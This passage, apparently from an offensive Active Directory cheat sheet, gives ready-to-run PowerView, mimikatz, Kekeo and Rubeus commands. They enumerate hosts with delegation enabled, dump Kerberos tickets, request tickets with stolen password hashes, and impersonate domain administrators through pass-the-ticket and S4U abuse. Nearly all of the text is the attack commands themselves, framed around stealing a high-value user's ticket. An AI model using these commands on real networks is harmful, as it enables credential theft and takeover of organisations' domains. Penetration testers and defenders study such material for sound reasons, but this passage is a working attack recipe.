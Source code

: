 Detailed Article: [DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

### Unconstrained Delegation

_If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a high value target or DA to connect to it, steal his TGT then ptt and impersonate him!_

Using PowerView:

```text
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName $ComputerName -Poll $Num_Seconds -UserName $UserName -Delay $WaitInterval -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt $Ticket_Path"'
```

**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:

```text
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:$UserName /domain:$Domain_FQDN /rc4:$Password_Hash

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:$TGT_Path /user:$UserToImpersonate@$Domain_FQDN /service:$Service_SPN

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt $TGS_Path"'
```

_ALTERNATIVE:_ Using Rubeus:

```text
Rubeus.exe s4u /user:$UserName /rc4:$NTLM_Hash /impersonateuser:$UserToImpersonate /msdsspn:"$Service_SPN" /altservice:<Optional> /ptt
```
